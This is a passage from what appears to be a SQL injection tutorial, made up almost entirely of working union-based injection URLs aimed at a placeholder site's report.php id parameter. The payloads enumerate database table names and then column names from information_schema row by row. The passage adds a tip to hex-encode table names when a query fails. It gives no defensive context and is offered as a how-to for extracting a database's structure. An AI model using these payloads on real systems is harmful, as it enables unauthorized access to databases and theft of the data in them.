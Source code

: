 First row
```
http://fakesite.com/report.php?id=-23 union select 1,2,table\_name,4,5 from information\_schema.tables where table\_schema=database() limit 0,1--+
```
Second row
```
http://fakesite.com/report.php?id=-23 union select 1,2,table\_name,4,5 from information\_schema.tables where table\_schema=database() limit 1,1--+
```
Third row
```
http://fakesite.com/report.php?id=-23 union select 1,2,table\_name,4,5 from information\_schema.tables where table\_schema=database() limit 2,1--+
```
Forth row
```
http://fakesite.com/report.php?id=-23 union select 1,2,table\_name,4,5 from information\_schema.tables where table\_schema=database() limit 3,1--+
```
and so on.

After getting the Table Names we can move on and start collecting the names of Columns under any table. we can specify the table name as we have all the tablenames.

```
Query : Select column\_name from information\_schema.columns where table\_schema=database() and table\_name='tablenamehere'
Injection : http://fakesite.com/report.php?id=-23 union Select 1,2,column\_name,4,5 from information\_schema.columns where table\_schema=database() and table\_name='tablenamehere'--+
```
If the above query do not give any output or an error. You can try to hex the tablename. And now we can try to get all the table names one by one if only one row is getting printed.

First row
```
http://fakesite.com/report.php?id=-23 union select 1,2,column\_name,4,5 from information\_schema.columns where table\_schema=database() and table\_name='tablename' limit 0,1--+
```
Second row
```
http://fakesite.com/report.php?id=-23 union select 1,2,column\_name,4,5 from information\_schema.columns where table\_schema=database() and table\_name='tablename' limit 1,1--+
```
Third row
```
http://fakesite.com/report.php?id=-23 union select 1,2,column\_name,4,5 from information\_schema.columns where table\_schema=database() and table\_name='tablename' limit 2,1--+
```
Forth row
```
http://fakesite.com/report.php?id=-23 union select 1,2,column\_name,4,5 from information\_schema.columns where table\_schema=database() and table\_name='tablename' limit 3,1--+
```
and so on...
